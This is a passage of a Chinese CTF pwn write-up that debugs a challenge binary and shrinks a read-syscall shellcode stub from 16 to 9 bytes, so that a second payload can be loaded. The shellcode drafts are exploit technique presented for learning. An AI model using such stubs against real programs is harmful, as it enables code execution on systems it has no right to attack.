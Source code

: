 ##### &emsp;&emsp;&emsp;断点下载进入函数前(0x4015db)，动态调试一下，
```sh
 RAX  0
 RBX  0
 RCX  0x7ffff7e97887 (write+23) ◂— cmp rax, -0x1000 /* 'H=' */
 RDX  1
 RDI  0
 RSI  1
 R8   0x467
 R9   0x7ffff7fc9040 (_dl_fini) ◂— endbr64 
 R10  0x7ffff7d8b2e0 ◂— 0xf0022000056ec
 R11  0x246
 R12  0x7fffffffdb18 —▸ 0x7fffffffddd1 ◂— '/home/pwn/worktable/cnss2024/pwn11'
 R13  0x401458 (main) ◂— endbr64  /* 0xe5894855fa1e0ff3 */
 R14  0x403e18 (__do_global_dtors_aux_fini_array_entry) —▸ 0x401200 (__do_global_dtors_aux) ◂— endbr64  /* 0x2ebd3d80fa1e0ff3 */
 R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0
 RBP  0x7fffffffda00 ◂— 1
 RSP  0x7fffffffd9f0 ◂— 0x20200001000
 RIP  0x4015db (main+387) ◂— call 0x401236 /* 0xb8fffffc56e8 */
```
##### &emsp;&emsp;&emsp;可以看到，```rax```和```rdi```恰好都是0（```read```的调用号以及```stdin```），这两个就不用管了。主要弄剩下两个。<br>
##### &emsp;&emsp;&emsp;demo1
```python
shellcode1 = '''
    mov rsi, 0x401240 ; 0x401236 + 10
    mov rdx, 0x50
    syscall
'''
>>> len(asm(shellcode1))
16
```
##### &emsp;&emsp;&emsp;显然demo1肯定不行了，这是因为syscall是固定2字节，而```mov```实际上是一个相当长的指令，在构造短shellcode是应尽量避免使用，尽量使用```pop```和```push```指令，尤其在置空寄存器时，可以使用```xor rax, rax```
##### &emsp;&emsp;&emsp;demo2
```python
shellcode2 = '''
    push 0x401240
    pop rsi
    push 0x50
    pop rdx
    syscall
'''
>>> len(asm(shellcode2))
11
```
##### &emsp;&emsp;&emsp;玛德正好多一个<br>&emsp;&emsp;&emsp;仔细分析一下，```rsi```要求必须是一定的值，所以它的```pop```和```push```省不了，但```rdx```不一样，只要是一个大数就行。注意到，此时由于```call```指令，```rsp```指向的是返回地址（0x4015E0），已经足够大，所以就把它的```push```给省掉。
##### &emsp;&emsp;&emsp;demo3
```python
shellcode3 = '''
    pop rdx
    push 0x401240
    pop rsi
    syscall
'''
>>> len(asm(shellcode3))
9
```